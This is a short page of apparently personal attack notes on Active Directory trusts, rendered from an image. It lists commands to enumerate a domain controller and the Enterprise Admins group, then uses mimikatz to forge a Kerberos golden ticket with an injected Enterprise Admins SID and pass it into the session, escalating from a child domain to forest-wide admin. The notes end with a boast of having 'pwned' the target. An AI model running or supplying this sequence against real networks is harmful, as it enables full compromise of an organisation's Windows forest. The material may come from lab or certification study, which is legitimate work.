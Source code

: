 ## Types of trusts:

### 1) Directional

### 2) Transitive

# Inter-realm TGTs

### Enterprise Admins (EA) Group default SID: S-1-5-21-ROOT_DOMAIN-519

#### 1) Get-ADComputer -Identity "DC"

#### 2) Get-ADGroup -Identity "Enterprise Admins" -server PARENT_DOMAIN_CONTROLLER_FQDN

#### 3) mimikatz.exe

#### 4) privilege::debug

#### 5) kerberos::golden /user:Administrator /domain:DOMAIN /sid:DC_SID /service:krbtgt /rc4:KRBTGT_HASH /sids:ENTERPRISE_ADMIN_GROUP_SID /ptt

#### 6) PWWWWWWWWWWNEEDDD!!!!!!
